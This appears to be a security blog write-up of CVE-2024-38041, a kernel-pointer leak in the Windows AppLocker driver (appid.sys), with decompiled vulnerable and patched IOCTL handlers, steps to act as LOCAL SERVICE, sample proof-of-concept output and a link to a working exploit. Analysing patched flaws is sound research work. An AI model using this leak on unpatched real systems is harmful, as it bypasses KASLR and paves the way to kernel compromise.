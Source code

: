```yaml
---
title:      "CVE-2024-38041 - Windows AppLocker Exposure of Sensitive Information to an Unauthorized Actor  "
subtitle:   "Sample Subtitle"
date:       2025-05-18
author:     "Ghostbyt3"
tags:    ["1day", "appid.sys", "windows", "kernel", "leak"]
categories: ["1Day Breakdown"]
authorbox: true
pager: true
toc: true
sidebar: "right"
layout: "single"
showTableOfContents: true
---
```


CVE-2024-38041 is a information leak vulnerability in the Windows AppID driver (`appid.sys`). The flaw lies in the handler for IOCTL code `0x22A014`, which lacks proper validation of the caller's access mode. Specifically, the `AipDeviceIoControlDispatch` function does not verify that the request originates from kernel mode. As a result, a user-mode process running as LOCAL SERVICE can trigger this IOCTL to leak kernel pointers via a shared SystemBuffer.  By impersonating the LOCAL SERVICE account and invoking the vulnerable IOCTL, an attacker can leak kernel addresses, bypassing KASLR and paving the way for further kernel exploitation.

**CVE-2024-38041:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-38041  
**Vulnerability Type:** Exposure of Sensitive Information to an Unauthorized Actor  
**Tested On:** Windows 11 23H2  
**Driver Version:** appid.sys - 10.0.22621.3155   


## Requirements

To send the IOCTL request, the IOCTL code was examined and found to have the access flag set to `FILE_WRITE_ACCESS`. This means the I/O manager will dispatch the IRP only if the caller has write access rights.

![IMG](/img/cve-2024-21338/img2.png)

The device’s security descriptor was checked to determine which users have permission to open a handle. It was observed that only the `AppIDSvc` and `LOCAL SERVICE` accounts have full access and `Administrator` does not. As a result, a `cmd.exe` session must be run under one of these two accounts to interact with and exploit the device.

![IMG](/img/cve-2024-21338/img1.png)

One of the simplest methods to achieve this is by using `PsExec.exe` to spawn a shell as the `LOCAL SERVICE` user.

![IMG](/img/cve-2024-21338/img3.png)

## Vulnerability analysis

The IOCTL request sent to `0x22A014` first checks whether the `OutputBufferLength` is exactly 48 bytes. If the length does not match, the operation exits with an error. If the condition is met, the driver copies certain kernel addresses and function pointers into the `SystemBuffer`. Since this IOCTL uses `METHOD_BUFFERED`, both input and output are shared via `IRP->AssociatedIrp.SystemBuffer`. As a result, this behavior leads to a kernel address leak.

```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]
     case 0x22A014:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(
            (__int64)WPP_GLOBAL_Control->AttachedDevice,
            0x1Au,
            (__int64)&WPP_9fed954e24023a5a6dae708fb6376e6f_Traceguids);
        if ( CurrentStackLocation->Parameters.DeviceIoControl.OutputBufferLength != 48 )
          goto LABEL_27;
        SystemBuffer = IRP->AssociatedIrp.SystemBuffer;
        *SystemBuffer = &Resource;
        SystemBuffer[1] = &xmmword_1C00168A8;
        SystemBuffer[2] = (char *)&xmmword_1C00168A8 + 8;
        SystemBuffer[3] = &qword_1C00168B8;
        SystemBuffer[4] = AiReleaseOriginProcessData;
        SystemBuffer[5] = AiAllocUninstallStringData;
        IRP->IoStatus.Information = 48LL;

[::]
}
```

## Exploit

Tested on: Windows 11 22H2 (01-2024 Build)
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-38041/POC

```
PS C:\Users\h4x\Desktop> .\CVE-2024-38041.exe -p 1544
[+] Trying to find Thread ID for the given process PID: 1544
[+] First Thread ID of the process: 1548
[+] Opened a THREAD_DIRECT_IMPERSONATION handle to the LOCAL_SERVICE process
[+] Opening handle to Applocker device
[+] Calling AipDeviceIoControlDispatch ....success
[+] Leaked Kernel Address:
        [*] Value0: 0xFFFFF80180C96820
        [*] Value1: 0xFFFFF80180C96888
        [*] Value2: 0xFFFFF80180C96890
        [*] Value3: 0xFFFFF80180C96898
        [*] Value4: 0xFFFFF80180C9D250
        [*] Value5: 0xFFFFF80180C9C570
```

## Patch 

In the patched version, a call to `ExGetPreviousMode()` ensures only kernel-mode callers can proceed, blocking this path.

```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(
            (__int64)WPP_GLOBAL_Control->AttachedDevice,
            0x1Au,
            (__int64)&WPP_a52c6a01ee1136c5e851ebb08df688b5_Traceguids);
        if ( (unsigned int)Feature_2619781439__private_IsEnabledDeviceUsage() && ExGetPreviousMode() ) // Fix
          goto LABEL_19;
        if ( *(_DWORD *)(v5 + 8) != 48 )
          goto LABEL_28;
        v11 = *(PVOID ***)(a2 + 24);
        *v11 = &WPP_MAIN_CB.Reserved;
        v11[1] = (PVOID *)&xmmword_1C0016888;
        v11[2] = (PVOID *)&xmmword_1C0016888 + 1;
        v11[3] = (PVOID *)&qword_1C0016898;
        v11[4] = (PVOID *)AiReleaseOriginProcessData;
        v11[5] = (PVOID *)AiAllocUninstallStringData;
        *(_QWORD *)(a2 + 56) = 48LL;

[::]

}
```

## Acknowledgements

- It was explained by CSACyber and can be found [here](https://csacyber.com/blog/exploiting-microsoft-kernel-applocker-driver-cve-2024-38041).
- The [PoC](https://github.com/varwara/CVE-2024-38041/) was developed by Varwara, and the above PoC is based on it.
